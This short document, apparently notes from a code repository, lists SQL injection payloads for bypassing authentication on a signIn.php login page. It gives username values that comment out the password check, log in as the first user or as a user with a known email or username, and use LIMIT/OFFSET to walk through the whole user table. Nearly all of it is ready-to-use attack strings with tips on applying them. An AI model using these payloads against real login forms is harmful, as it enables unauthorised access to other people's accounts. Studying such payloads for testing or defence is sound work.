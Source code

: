 - Auth Bypass on signIn.php

  1. username => 'or '1'='1' -- '
  2. You can use this attack to get the first user, if you do not any username prior to your attempt.

- Auth Bypass with any field that may be publicly available

  1. username => 'or email='smb@gmail.com' -- '

- Auth Bypass with any skipping through
  1. username => 'or '1'='1' LIMIT 1 OFFSET 2 -- '
  2. OFFSET is the key value here. This way, you can go through the whole table.

* Auth a specific user by a known unique field
  username => 'or username='smb' -- '
  or
  username => 'or email='smb@gmail.com' -- '
